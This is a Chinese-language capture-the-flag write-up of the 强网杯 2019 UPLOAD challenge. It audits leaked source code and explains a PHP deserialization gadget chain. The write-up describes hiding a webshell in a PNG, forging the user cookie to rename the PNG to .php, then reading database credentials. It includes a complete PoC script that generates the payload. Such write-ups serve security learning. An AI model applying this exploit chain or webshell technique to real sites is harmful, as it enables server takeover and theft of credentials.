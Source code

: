 # \[强网杯 2019] UPLOAD

## \[强网杯 2019] UPLOAD

## 考点

* 代码审计
* www.tar.gz 源码泄露
* PHP反序列化

## wp

https://www.zhaoj.in/read-5873.html

### 分析

1. 只能上传正常的图片，非 png 格式会自动转化为 png，图片被保存在 upload 目录下
2. 本题是 www.tar.gz 泄露，源码泄露总结
3. 函数流程：
   1. 没有登陆时，跳转到 index.php，进行注册登陆。login\_check 函数将 cookie('user') 赋给 profile，然后 base64 解码反序列化
   2. 在注册页面调用 login\_check 函数检查是否登陆，是则跳转到 index.php/home ，否则进行注册
   3. 在登陆页面调用 login\_check 函数检查是否登陆，是则跳转到 index.php/home ，否则进行登陆
   4. 已经登陆时，跳转到 index.php/home 进行文件上传操作
   5. 在进行上传操作时，对请求头中的 REMOTE\_ADDR 进行 md5 加密并赋给 upload\_menu ，然后创建以 upload\_menu 命名的文件夹
   6. 然后进行登陆检查，然后将文件的临时副本的名称赋给 filename\_tmp，将文件名(不加后缀)进行 md5 加密后赋给 filename
   7. 然后进行后缀检测，将 filename 的后缀赋给 ext，如果 ext 为 png 返回 1，否则返回 0
   8. 如果后缀是 png，检查图片内容，然后将 filename 赋给 filename\_tmp，将图片相对路径赋给 img，执行 update\_img 函数
   9. update\_img 函数先进行 user 查询，如果 user 没有上传过图片并且 img 存在，则更新 user 表的 img 字段，并执行 update\_cookie 函数
   10. update\_cookie 函数将上传图片的 img 进行序列化和 base64 编码后赋给 cookie 的 user
   11. profile 的 \_call 和 \_get 两个魔术方法，分别书写了在调用不可调用方法和不可调用成员变量时怎么做。\_\_get 会直接从 except 里找，\_\_call 会调用自身的 name 成员变量所指代的变量所指代的方法。

## 攻击流程

注册，登陆。登陆之后有个跳转的过程，这里就有了 cookie，如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_1.png)

解码后如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_2.png)

选择上传图片，这个图片就是合成的图片马，从 [阿里巴巴矢量图库](https://www.iconfont.cn) 下载一个 png 图片，然后蚁剑生成一个 shell，用 hex 编辑器直接将 shell 内容放在图片后面即可。这里使用阿里的图库是因为网上的 png 图片可能 hex 格式不规范，导致后面改名之后会报 parse error

上传图片之后，会在 upload 目录下生成一个 md5(REMOTE\_ADDR) 文件，而且文件名也会被 md5 加密，这时 cookie\['user'] 如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_3.png)

解码后如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_4.png)

使用 poc 生成的序列化结果修改 cookie\['user']，刷新一次即可修改后缀。在服务器反序列化的过程中，在 Register 类中执行析构函数，调用 $profile 的 index() 函数，在 Profile 类的 \_\_get 函数中定义了如果调用 index() 就去调用 img，而 \_\_call 函数规定调用不可调用的函数时就调用 img 对应的函数，这样就控制函数跳转到 upload\_img 函数，然后执行复制函数，将 png 改为 php，并删除原有的 png，至此，后缀修改完成。

最后直接用蚁剑连接 shell，读取配置文件中的数据库信息，选择 mysqli 驱动连接到数据库，即可读取 flag

最终 poc 如下，修改上传图片地址即可

```php
<?php
namespace app\web\controller;

class Profile
{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;

    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }

}

class Register
{
    public $checker;
    public $registed;

    public function __destruct()
    {
        if(!$this->registed){
            $this->checker->index();
        }
    }

}

$profile = new Profile();
$profile->except = ['index' => 'img'];
$profile->img = "upload_img";
$profile->ext = "png";
//修改地址即可
$profile->filename_tmp = "../public/upload/24ff17b3e72d90d210f3455327ea52f7/36a767e7b2d8d3bde3f881217a418ebb5.png";
$profile->filename = "../public/upload/24ff17b3e72d90d210f3455327ea52f7/6a767e7b2d8d3bde3f881217a418ebb5.php";

$register = new Register();
$register->registed = false;
$register->checker = $profile;

echo urlencode(base64_encode(serialize($register)));
?>
```



> mysqli 是 PHP 驱动数据库的一种方式，以前是使用 mysql 的，而 mysqli 相比于 mysql 更加安全高效
>
> copy(a, b)，a 和 b 是文件路径，将文件从 a 拷贝到 b，比如 copy("./1.png", "./1.php" ) 执行之后会存在两个文件 1.png 和 1.php
>
> unlink(a)，a 是文件路径，删除文件 a

